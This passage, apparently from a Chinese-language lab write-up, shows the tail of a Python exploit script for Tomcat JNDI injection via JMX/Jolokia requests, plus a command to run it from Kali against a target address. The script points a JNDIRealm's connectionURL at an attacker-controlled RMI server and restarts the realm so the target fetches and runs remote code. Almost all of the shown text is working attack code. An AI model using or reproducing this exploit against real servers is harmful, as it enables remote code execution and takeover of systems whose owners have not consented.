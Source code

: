 ```python
#写入connectionURL为自己公网RMI service地址
set_connectionURL = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "WRITE",
    "attribute": "connectionURL",
    "value": "rmi://192.168.233.249:8090/jndi"
}
#停止Realm
stop_JNDIrealm = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "stop",
    "arguments": []
}
#运行Realm，触发JNDI 注入
start = {
    "mbean": "Tomcat:realmPath=/realm0,type=Realm",
    "type": "EXEC",
    "operation": "start",
    "arguments": []
}
expoloit = [create_JNDIrealm, set_contextFactory, set_connectionURL, stop_JNDIrealm, start]
for i in expoloit:
    rep = req.post(url, json=i)
    pprint(rep.json())

```



在kali上使用python运行该脚本，指定目标ip地址和端口

```
命令:python exploit.py http://192.168.233.247:8090
```

![](media/9a08beff758b28b994d334ea398a856f.png)
